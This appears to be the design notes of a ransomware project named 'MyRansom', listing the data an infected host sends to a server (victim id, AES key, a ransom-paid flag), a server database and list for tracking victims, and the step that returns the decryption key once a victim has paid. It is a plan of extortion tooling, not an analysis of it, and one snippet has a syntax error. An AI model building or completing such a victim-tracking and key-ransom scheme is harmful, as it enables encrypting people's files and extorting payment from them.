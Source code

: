 # Args of MyRansom

## infected host

### init

```python
post_data = {
    'id': uuid.uuid1().hex
}
```

### aes key

```python
self.aes_key = self.enc_key()
post_data = {
    'id': self.id,
    'aes_key': self.aes_key
}
```

### paid

```python
post_data = {
    'id': self.id,
    'aes_key': self.aes_key,
    'ransom': True
}
```

## Server

### database

```sql
    ID         VARCHAR(32)    NOT NULL,
    INFTIME    VARCHAR(100)    NOT NULL,
    RANSOM     BOOLEAN         NOT NULL,
    AESKEY     VARCHAR(100)    NOT NULL
```

### viclist

```python
viclist = [
    {
        'id': victim_id,
        'inftime': time.ctime()
        'ransom': False,
        'aes_key': aes_key
    }
]
```

### paid

```python
aes_key = dec_key()
post_data = {
    'id': victim_id,
    'aes_key': aes_key
}
```

## Front-end
